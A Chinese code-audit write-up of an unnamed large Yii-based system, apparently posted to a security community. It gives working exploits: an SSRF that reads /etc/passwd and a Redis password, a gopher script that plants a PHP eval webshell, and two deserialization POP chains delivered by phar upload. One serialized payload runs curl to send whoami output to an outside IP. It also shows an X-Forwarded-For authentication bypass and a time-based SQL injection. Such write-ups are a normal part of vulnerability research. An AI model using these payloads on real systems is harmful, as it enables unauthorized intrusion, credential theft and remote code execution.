






# 奇安信攻防社区 - 某知名大型系统代码审计

## 0x01 xxxx-mgr 系统

看完安装流程，先从 `web` 端入手，几套系统均采用 `Yii` 二开，在此先学习一下 `Yii` 的基础知识  
[https://www.yiiframework.com/doc/guide/2.0/zh-cn](https://www.yiiframework.com/doc/guide/2.0/zh-cn)

### 前台 SSRF

本次审计漏洞重点放在前台 / 未授权上面，  
在 `center/controllers/DemoController.php` 下，存在一个经典的 `SSRF` 漏洞，并且带回显

```php
// php代理 实现get post请求
public function actionProxy(){
    $rs = [];
    if(\Yii::$app->request->isPost){
        $url = \Yii::$app->request->post('url');
        $post_data = \Yii::$app->request->post();

        $rs = $this->post($url,$post_data);
    }elseif (\Yii::$app->request->isGet){
        $url = \Yii::$app->request->get('url');

        $rs = $this->get($url);
    }

    return $rs;
}

// get
private function get($url){
    //初始化
    $ch = curl_init();

    //设置选项，包括URL
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);

    //执行并获取HTML文档内容
    $output = curl_exec($ch);

    //释放curl句柄
    curl_close($ch);

    return $output;
}

// post
private function post($url,$post_data){
    $ch = curl_init();

    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    // post数据
    curl_setopt($ch, CURLOPT_POST, 1);
    // post的变量
    curl_setopt($ch, CURLOPT_POSTFIELDS, $post_data);

    $output = curl_exec($ch);
    curl_close($ch);

    return $output;
}
```

构造请求 `/demo/proxy?url=file:///etc/passwd`  
  
尝试读取 `redis` 配置文件 `/xxxx/etc/system.conf`

```conf
online_server="127.0.0.1"
user_server="127.0.0.1"
auth_server="127.0.0.1"
detail_server="127.0.0.1"
log_server="127.0.0.1"
dye_server="127.0.0.1"
my_ip="127.0.0.1"
remote_dm_ip=""
thread_num ="4"
redis_password="xxxxxx@redis"
cache_server="127.0.0.1"
```

通过 `common/config/main-local.php` 文件得到 `redis` 端口在 `16xxx-16xxx`  
选择一个 `redis` 端口打一下

```python
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="16xxx"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="1.php"
path="/tmp"
passwd="xxxx@redis"        #如果无密码就不加，如果有密码就加 
cmd=[
     "config set dir /tmp",
     "config set dbfilename success",
     "set 'test' 'success'",
     "save",
     "quit"
    ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))
```

  
`config` 命令没有找到，很失败，在配置文件中看到了被禁用  
  
版本是 `6.2.6` 也没办法主从复制 `Orz`，但是在远程环境中部分是存在 `config` 命令的，从 `SSRF` 顺利变成了 `RCE`

### 未授权任意文件下载

由于是 Yii 框架，所以很快的找到了不做权限验证的 `api`  
  
在 `center/modules/user/controllers/GroupController.php` 控制器下，

```php
public function actionDownLoad()
{
    //下载文件
    if (Yii::$app->request->get('file')) {
        return Yii::$app->response->sendFile(Yii::$app->request->get('file'));

    }
    if (Yii::$app->session->get('batch_excel_download_file')) {
        return Yii::$app->response->sendFile(Yii::$app->session->get('batch_excel_download_file'));
    } else {
        Yii::$app->getSession()->setFlash('error', Yii::t('app', 'batch excel help31'));
    }
    return $this->redirect(['index']);
}
```

跟进查看 `sendFile()`

```php
public function sendFile($filePath, $attachmentName = null, $options = [])
{
    if (!isset($options['mimeType'])) {
        $options['mimeType'] = FileHelper::getMimeTypeByExtension($filePath);
    }
    if ($attachmentName === null) {
        $attachmentName = basename($filePath);
    }
    $handle = fopen($filePath, 'rb');
    $this->sendStreamAsFile($handle, $attachmentName, $options);

    return $this;
}
```

利用 `fopen` 函数打开了传入的文件路径，无任何过滤，直接读取文件  
`/user/group/down-load?file=/etc/passwd`  
  
但是任意文件下载危害并不大，我们需要以 `RCE` 为目的，在这种成熟框架面前，反序列化还是有的，碰巧 `fopen` 函数也支持 `phar://` 协议可以触发 `phar` 反序列化

#### 反序列化挖掘

Yii 框架是 `2.0.45`，这套系统加了一些 `vendor`，同时也删除了一些 `Yii` 自带的 `vendor`，所以只能靠我们自己挖一条链子出来，`POC` 如下

##### POP Chain 1

```php
<?php 
namespace yii\base {
    class Component {
        private $_events = array();
        private $_behaviors = 1;
        public function __construct() {
            include("./vendor/opis/closure/autoload.php");
            $func = function(){
                $cmd = 'touch /tmp/success';
                system($cmd);
            };
            $raw = \Opis\Closure\serialize($func);
            $data=\Opis\Closure\unserialize($raw);
            $this->_events = ["afterOpen" => [[
                $data, 
                "huahua"
                ]]];
        }
    }
}
namespace yii\redis{
    use yii\base\Component;
    class Connection extends Component{
        public $redisCommands = [];
        public $hostname = '';
        public $port;
        public $password;
        public $username;
        public $connectionTimeout;
        public $dataTimeout;
        public $database;
        public $unixSocket;
        private $_socket;

        public function __construct()
        {
            $this->redisCommands = array('CLEAN UP');
            $this->_socket = false;
            $this->hostname = '127.0.0.1';
            $this->port = 8001;//能够连通的任意本地服务的端口
            $this->unixSocket = false;
            $this->connectionTimeout = 5;
            parent::__construct();
        }
    }
}
namespace setasign\Fpdi\PdfReader{
    use yii\redis\Connection;
    class PdfReader{
        protected $parser;
        public function __construct(){
        $this->parser = new Connection;
        }
    }
    include("./vendor/opis/closure/autoload.php");
    echo urlencode(\Opis\Closure\serialize(new PdfReader));
}
?>
```

##### POP Chain 2

```php
<?php 
namespace yii\rest {
    class CreateAction {
        public $id;
        public $checkAccess;
        public function __construct() {
            $this->checkAccess = 'system';
            $this->id = "touch /tmp/success";
        }

    }
}
namespace yii\base {
    use yii\rest\CreateAction;
    class Component {
        private $_events = array();
        private $_behaviors = 1;
        public function __construct() {
            $this->_events = ["afterOpen" => [[
                [new CreateAction,"run"], 
                "a"]]];
        }
    }
}
namespace yii\redis{
    use yii\base\Component;
    class Connection extends Component{
        public $redisCommands = [];
        public $hostname = '';
        public $port;
        public $password;
        public $username;
        public $connectionTimeout;
        public $dataTimeout;
        public $database;
        public $unixSocket;
        private $_socket;

        public function __construct()
        {
            $this->redisCommands = array('CLEAN UP');
            $this->_socket = false;
            $this->hostname = '127.0.0.1';
            $this->port = 8001;//能够连通的任意本地服务的端口
            $this->unixSocket = false;
            $this->connectionTimeout = 5;
            parent::__construct();
        }
    }
}
namespace setasign\Fpdi\PdfReader{
    use yii\redis\Connection;
    class PdfReader{
        protected $parser;
        public $test;
        public function __construct(){
        $this->parser = new Connection;
        }
    }
}
namespace {
    use setasign\Fpdi\PdfReader\PdfReader;
    $clazz = new PdfReader;
    @unlink("test.phar");
    $p = new Phar("test.phar",0);
    $p->startBuffering();
    $p->setMetadata($clazz);
    $p->setStub("GIF89a__HALT_COMPILER();");
    $p->addFromString("huahua.txt","successful!");
    $p->stopBuffering();
}
?>
```

#### 上传 phar 文件

在 `center/modules/report/controllers/SystemController.php` 控制器下正好存在一个写图片文件的地方

```php
    public function actionImageSave()
    {
        $post = Yii::$app->request->post();
        $picInfo = $post['baseimg'];
        $savingDir = 'uploads/monitor/';
        if (!is_dir($savingDir)) {
            mkdir($savingDir);
        }

        $streamFileRand = $savingDir.$post['sql_type'].$post['proc'].'.png'; //图片名
        Yii::$app->session->set('filename', $streamFileRand);
        preg_match('/(?<=base64,)[\S|\s]+/',$picInfo,$picInfoW);//处理base64文本
        file_put_contents($streamFileRand,base64_decode($picInfoW[0]));//文件写入

        return true;
    }
```

#### 最终利用

step 1

```http
POST /report/system/image-save HTTP/2

baseimg=base64,R0lGODlhX19IQUxUX0NPTVBJTEVSKCk7ID8%2bDQqlAgAAAQAAABEAAAABAAAAAABtAgAATzozMzoic2V0YXNpZ25cRnBkaVxQZGZSZWFkZXJcUGRmUmVhZGVyIjoyOntzOjk6IgAqAHBhcnNlciI7TzoyMDoieWlpXHJlZGlzXENvbm5lY3Rpb24iOjEyOntzOjEzOiJyZWRpc0NvbW1hbmRzIjthOjE6e2k6MDtzOjg6IkNMRUFOIFVQIjt9czo4OiJob3N0bmFtZSI7czo5OiIxMjcuMC4wLjEiO3M6NDoicG9ydCI7aTo4MDgxO3M6ODoicGFzc3dvcmQiO047czo4OiJ1c2VybmFtZSI7TjtzOjE3OiJjb25uZWN0aW9uVGltZW91dCI7aTo1O3M6MTE6ImRhdGFUaW1lb3V0IjtOO3M6ODoiZGF0YWJhc2UiO047czoxMDoidW5peFNvY2tldCI7YjowO3M6Mjk6IgB5aWlccmVkaXNcQ29ubmVjdGlvbgBfc29ja2V0IjtiOjA7czoyNzoiAHlpaVxiYXNlXENvbXBvbmVudABfZXZlbnRzIjthOjE6e3M6OToiYWZ0ZXJPcGVuIjthOjE6e2k6MDthOjI6e2k6MDthOjI6e2k6MDtPOjIxOiJ5aWlccmVzdFxDcmVhdGVBY3Rpb24iOjI6e3M6MjoiaWQiO3M6MTg6InRvdWNoIC90bXAvc3VjY2VzcyI7czoxMToiY2hlY2tBY2Nlc3MiO3M6Njoic3lzdGVtIjt9aToxO3M6MzoicnVuIjt9aToxO3M6MToiYSI7fX19czozMDoiAHlpaVxiYXNlXENvbXBvbmVudABfYmVoYXZpb3JzIjtpOjE7fXM6NDoidGVzdCI7Tjt9CgAAAGh1YWh1YS50eHQLAAAAjT7YZQsAAABYYbEEpAEAAAAAAABzdWNjZXNzZnVsIeJ7cw%2bG4EYC7FkDA58zSu4gzM18AgAAAEdCTUI%3d&sql_type=hua&proc=hua
```

step 2

```http
/user/group/down-load?file=phar://./uploads/monitor/huahua.png
```

成功利用  


### 前台无条件 RCE

既然挖到了两条链子，全局搜索 `unserialize` 函数  
在 `center/modules/strategy/controllers/IpController.php` 控制器下面，  
存在两个方法存在 `unserialize()`

```php
public function actionBindIp(){
    $data1 = unserialize(Yii::$app->request->post('data1'));
    ...
    ...
    ...
}
public function actionCancelBindIp(){
    $data1 = unserialize(Yii::$app->request->post('data1'));
    ...
    ...
    ...
}
```

构造 `poc`

```http
POST /strategy/ip/bind-ip

data1=O%3A33%3A%22setasign%5CFpdi%5CPdfReader%5CPdfReader%22%3A1%3A%7Bs%3A9%3A%22%00%2A%00parser%22%3BO%3A20%3A%22yii%5Credis%5CConnection%22%3A12%3A%7Bs%3A13%3A%22redisCommands%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22CLEAN+UP%22%3B%7Ds%3A8%3A%22hostname%22%3Bs%3A9%3A%22127.0.0.1%22%3Bs%3A4%3A%22port%22%3Bi%3A8001%3Bs%3A8%3A%22password%22%3BN%3Bs%3A8%3A%22username%22%3BN%3Bs%3A17%3A%22connectionTimeout%22%3Bi%3A5%3Bs%3A11%3A%22dataTimeout%22%3BN%3Bs%3A8%3A%22database%22%3BN%3Bs%3A10%3A%22unixSocket%22%3Bb%3A0%3Bs%3A29%3A%22%00yii%5Credis%5CConnection%00_socket%22%3Bb%3A0%3Bs%3A27%3A%22%00yii%5Cbase%5CComponent%00_events%22%3Ba%3A1%3A%7Bs%3A9%3A%22afterOpen%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BC%3A32%3A%22Opis%5CClosure%5CSerializableClosure%22%3A275%3A%7Ba%3A5%3A%7Bs%3A3%3A%22use%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22function%22%3Bs%3A127%3A%22function%28%29%7B%0A++++++++++++++++%24cmd+%3D+%27curl+http%3A%2F%2F124.220.215.8%3A1234%2F%3Fcmd%3D%60whoami%60%27%3B%0A++++++++++++++++%5Csystem%28%24cmd%29%3B%0A++++++++++++%7D%22%3Bs%3A5%3A%22scope%22%3Bs%3A18%3A%22yii%5Cbase%5CComponent%22%3Bs%3A4%3A%22this%22%3BN%3Bs%3A4%3A%22self%22%3Bs%3A32%3A%220000000053bc12be000000004d2c46e6%22%3B%7D%7Di%3A1%3Bs%3A6%3A%22huahua%22%3B%7D%7D%7Ds%3A30%3A%22%00yii%5Cbase%5CComponent%00_behaviors%22%3Bi%3A1%3B%7D%7D
```

成功 `RCE`  


## API 接口

### 0x00 SQL 注入

先来看一下如何做的权限验证

```php
'authenticator' => [
    'class' => \common\extend\ApiAuth::className(),
],
```

跟进 `ApiAuth` 类

```php
public function authenticate($user, $request, $response)
    {

        // 如果是从 v2 过来的，就不要重复验证
        if (substr($request->pathInfo, 0, 7) === 'api/v2/') {
            return true;
        }

        $this->access_token = $this->findParams($request, $this->tokenParam);

        $url = $this->findParams($request);

        $ip = $request->getUserIP();

        $this->validateAccessToken($ip, $url);

        $this->validateRemoteAddress($ip, $url);

        if ($this->validateAction($url, $ip)) {
            return true;
        }

        throw new UnauthorizedHttpException(\Yii::t('app', 204010), 20401);
    }
```

先绕过第一个点 `validateAccessToken`

```php
public function validateAccessToken($ip, $url)
    {
        //去缓存内先验证一下令牌是否有缓存,如果没有则去mysql表内查询
        if (!Yii::$app->cache->get($this->access_token)) {

            //如果url是查询令牌接口，则根据请求ip来进查询数据
            if ($url == '/api/v8/auth/get-access-token') {
                //按着ip精准查询
                $tokenResource = IpBindingToken::find()->where(['ip' => $ip])->asArray()->all();
                //如果没查询到数据， 可能是授权的ip段 比如 192.168.1.100-192.168.1.105
                if (!$tokenResource) {
                    $tmp_ip = explode('.', $ip);
                    unset($tmp_ip[3]);
                    //根据ip前三位来查询数据 是一个二维数组
                    $tokenResource = IpBindingToken::find()->filterWhere(['like', 'ip', implode('.', $tmp_ip)])->asArray()->all();
                }

                //如果没查询到数据，返回机器未授权
                if (!$tokenResource) {
                    throw new UnauthorizedHttpException(Yii::t('app', 204013), 20401);
                }

                //如果是多个数组，那么这一步就必须要匹配到ip相对应的数据了
                foreach ($tokenResource as $item) {
                    //解析mysql存储的ip列数据，返回boolean
                    $ipParseResult = $this->parseIp($ip, $item['ip']);
                    //判断用户ip是否在ipMap数组内
                    if ($ipParseResult) {
                        $this->access_token = $item['token'];
                        Yii::$app->cache->add($this->access_token, $item);
                        break;
                    }
                }

                //如果未能匹配到数据， 返回机器未授权错误
                if ($this->access_token == $ip) {
                    throw new UnauthorizedHttpException(Yii::t('app', 204013), 20401);
                }
            } else {
                //其他请求均以令牌为查询条件
                $tokenResource = IpBindingToken::findOne(['token' => $this->access_token]);
                if (!$tokenResource) {
                    //返回令牌错误
                    throw new UnauthorizedHttpException(Yii::t('app', 204012), 20401);
                }

                Yii::$app->cache->add($this->access_token, $tokenResource->attributes);
            }
        }
    }
```

接收传入的参数 `access_token` 并且和数据库中的作对比，在 `/api/v8/auth/get-access-token` 中可以获取 `token`，在请求时加上 `X-Forwarded-For: 127.0.0.1` 即可  
第二个点 `validateRemoteAddress`，这里没什么好说的，请求时加上 `X-Forwarded-For: 127.0.0.1` 和上面的 `access_token` 相匹配即可  
绕过权限验证后，再来看控制器  
`rest/versions/api/immu/controllers/QueryController.php`

```php
public function actionIndex()
    {
        $params = Yii::$app->request->get();
        $userName = @$params['user_name'];
        //$findUser = "select user_name from `user` where user_name='$userName'";
        $findRes = $this->getUser($userName);
        if (!$findRes) {
            return Common::info(10002);
        }
        $time = @$params['time'];
        $timeNow = date('Ym',time());
        if ($time == $timeNow){
            //查mysql总和加redis在线total
            //查在线表总流量
            $tableName = 'srun_detail';
            $sql = "select `rad_online_id` from `online_radius` where `user_name`='$userName'";
            $details = Yii::$app->db->createCommand($sql)->queryOne();
            if (!$details){
                $onlineBytes = 0;
            }else{
                $hash = Redis::executeCommand('hGetAll', 'hash:rad_online:' . $details['rad_online_id'], [], 'redis_online');
                if ($hash) {
                    $onlineData = Redis::hashToArray($hash);
                    $onlineBytes = $onlineData['bytes_in'] + $onlineData['bytes_out'];
                }else{
                    $onlineBytes = 0;
                }

            }
        }else{
            $tableName = sprintf('srun_detail%s%s',"_",$time);
            $onlineBytes = 0;
        }
        $sql = "select SUM(`total_bytes`) as `mysql_bytes` from `$tableName` where `user_name`='$userName'";
        $mysqlData = Yii::$app->db->createCommand($sql)->queryOne();
        $allBytes = $mysqlData['mysql_bytes'];
        $allBytes = $allBytes + $onlineBytes;
        $result['total_bytes'] = sprintf("%.2f",$allBytes/(1024**3));
        $result['code'] = 'E00';
        $result['msg'] = '成功';
        return $result;
    }
```

在这里，直接做了拼接并且执行

```php
$sql = "select SUM(`total_bytes`) as `mysql_bytes` from `$tableName` where `user_name`='$userName'";
$mysqlData = Yii::$app->db->createCommand($sql)->queryOne();
```

构造 `payload`

```http
GET /api/immu/query?access_token=FPFBWAk5llPf3Phd5drTiez9Uks1749J&user_name=test002&time=mobile_day`+where+user_name='test001'+union+select+1+and(select+sleep(3))%23 HTTP/2
Host: 192.168.0.105:8001
X-Forwarded-For: 127.0.0.1
```


